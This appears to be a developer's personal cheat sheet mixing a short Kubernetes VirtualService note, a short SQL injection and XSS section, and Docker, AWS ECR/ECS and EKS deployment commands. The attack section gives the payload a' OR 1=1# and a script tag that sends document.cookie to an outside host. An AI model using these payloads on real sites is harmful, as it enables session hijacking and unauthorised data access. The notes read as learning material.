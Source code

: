 A VirtualService is used to route traffic. It is similar to the Kubernetes Ingress resource. However, it is more configurable and can be used to route internal cluster traffic in addition to external traffic.

#### SQL Injection

code: `a' OR 1=1#`
Notice that you have inserted a second condition (1=1) which you know will always equate to TRUE, and also the a character, which will force the database to conclude that there are no users with that User ID (since each user has a number as an ID). This will force the database to evaluate the second condition, and because we know that condition to always be true, it will return all records from the database.

code to get cookies `<script>new Image().src=”http://192.168.1.80/b.php?”+document.cookie;</script> `

### Build docker locally and run it

`docker build -t <docker-image-name> directory`
`docker run -d -p <port>:<expose-port> <docker-image-name>`

### Deploy a dockerized app to AWS

**Tasks** are JSON files that describe how a container should be run. For example, you need to specify the ports and image location for your application. A **service** simply runs a specified number of tasks and restarts/kills them as needed. This has similarities to an auto-scaling group for EC2. A **cluster** is a logical grouping of services and tasks. This will become more clear as we build.

[youtube](https://www.youtube.com/watch?v=zs3tyVgiBQQ)

- login into ecr using aws-cli `aws ecr get-login-password --region <region> | docker login --username AWS --password-stdin <account-id>.dkr.ecr.<region>.amazonaws.com`
- create a new ecr repo
- tag the docker image with the ecr image uri ` docker tag <current-image>:latest <ecr-image-uri>:latest`
- push the tagged docker image `docker push <docker-image>`
- create a cluster
- create a task definition
- run a task

Remember to add platform to your image if you are planning to run it else on a Linux machine because by default when an image is built on a M1 chip, docker automatically append arm64 to the image platform type`docker build --platform=linux/amd64 -t server2 .`

### Deploy K8s on EKS

EKS is a managed k8s service, it manages the master nodes, it handles scaling and backups.

# steps

- install eksctl
- create a cluster `eksctl create cluster --name test-cluster1 --version 1.19 --region us-east-1 --nodegroup-name linux-nodes --node-type t2.micro --nodes 2 --zones us-east-1a,us-east-1b,us-east-1c`
- deploy your k8s apps by running kubectl apply -f
- nslookup the load balancer external ip to see if it's live
